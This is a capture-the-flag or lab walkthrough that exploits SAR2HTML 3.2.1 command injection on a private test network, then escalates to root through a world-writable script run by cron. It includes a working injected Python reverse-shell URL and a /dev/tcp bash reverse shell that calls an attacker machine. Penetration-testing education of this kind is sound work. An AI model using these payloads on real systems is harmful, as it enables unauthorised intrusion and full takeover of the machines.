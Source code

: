 # 🚩 SAR2HTML Exploitation and Privilege Escalation

## 🎯 Objective

Gain **remote shell access** to a vulnerable SAR2HTML web application, and then **escalate privileges to root** by exploiting a writable shell script executed via a cron job.

---

## 🔍 Step 1: Network Discovery

### 🔹 Discover Target IP

```bash
netdiscover -r 10.0.2.0/24
```

- Found target machine at: `10.0.2.6`

---

## 🔎 Step 2: Port Scanning

### 🔹 Run Nmap for Open Ports & Service Detection

```bash
nmap -A 10.0.2.6
```

- Found open port: **80 (HTTP)**

---

## 🌐 Step 3: Web Enumeration

### 🔹 Use Gobuster to Find Hidden Directories

```bash
gobuster dir -u http://10.0.2.6 -w /usr/share/wordlists/dirb/common.txt
```

- Found: `/robots.txt`

### 🔹 robots.txt Content

```text
Disallow: /sar2HTML/
```

---

## 📁 Step 4: SAR2HTML Enumeration

- URL: `http://10.0.2.6/sar2HTML/`
- Detected **SAR2HTML v3.2.1**
- Vulnerable to **Remote Code Execution** via `plot` parameter

---

## 🧪 Step 5: Confirm Remote Code Execution

### Test RCE:

```http
http://10.0.2.6/sar2HTML/index.php?plot=;whoami
```

- Response: `www-data` (confirms RCE)

---

## 🎯 Step 6: Get a Reverse Shell

### Start Listener on Attacker Machine:

```bash
nc -lvnp 4444
```

### Exploit with Python3 Reverse Shell:

```http
http://10.0.2.6/sar2HTML/index.php?plot=;python3 -c 'import socket,subprocess,os;s=socket.socket();s.connect(("10.0.2.5",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'
```

> Replace `10.0.2.5` with your Kali IP. Use URL encoding if needed.

---

## 📦 Step 7: Post-Exploitation Enumeration

### Check Kernel Version

```bash
uname -r
```

- `5.0.0-23-generic`

### Find SUID Binaries

```bash
find / -type f -perm -04000 -ls 2>/dev/null
```

(No unusual binaries found for direct root exploit.)

---

## ⏱️ Step 8: Privilege Escalation via Cron Job

### Check Crontab

```bash
cat /etc/crontab
```

- Found interesting line:

```cron
*/5 * * * * root cd /var/www/html/ && sudo ./finally.sh
```

### View Script Contents

```bash
cat /var/www/html/finally.sh
```

```bash
#!/bin/sh
./write.sh
```

### Check Permissions on write.sh

```bash
ls -l /var/www/html/write.sh
```

- Result:

```bash
-rwxrwxrwx 1 www-data www-data 30 Oct 21  2019 write.sh
```

✅ Writable by `www-data`, and **executed by root via cron** → escalation vector.

---

## 🧨 Step 9: Modify Script to Spawn Root Shell

### Replace `write.sh` with Reverse Shell Payload:

On attack box, start listener:

```bash
nc -lvnp 1234
```

On target (remote shell):

```bash
echo '#!/bin/bash' > /var/www/html/write.sh
echo 'bash -i >& /dev/tcp/192.168.1.107/1234 0>&1' >> /var/www/html/write.sh
chmod +x /var/www/html/write.sh
```

Wait for cron to execute.

### ✅ Root Access Achieved

- Listener receives connection as `root`.

---

## ✅ Summary

| Step | Action |
|------|--------|
| Web RCE | Exploit SAR2HTML via `plot` param |
| Initial Shell | Python3 reverse shell |
| PrivEsc | Overwrite cron-executed `write.sh` |
| Final Shell | Got root reverse shell via cron |

---

## 🔑 Key Techniques Used

- Web Enumeration (Gobuster, robots.txt)
- RCE via unsanitized GET param
- Reverse Shell via Python
- Cron job privilege escalation
- Shell replacement using writable scripts

---

## 🧰 Tools Used

- `netdiscover`
- `nmap`
- `gobuster`
- `nc` (Netcat)
- Bash scripting
- Python3 reverse shell

---

## 📝 Notes

- If `bash -i >& /dev/tcp/...` fails, use full Python shell or encode URL
- Always check crontabs and SUID files during enumeration
- Try `linpeas.sh` or `pspy` for automated detection in real CTFs

---

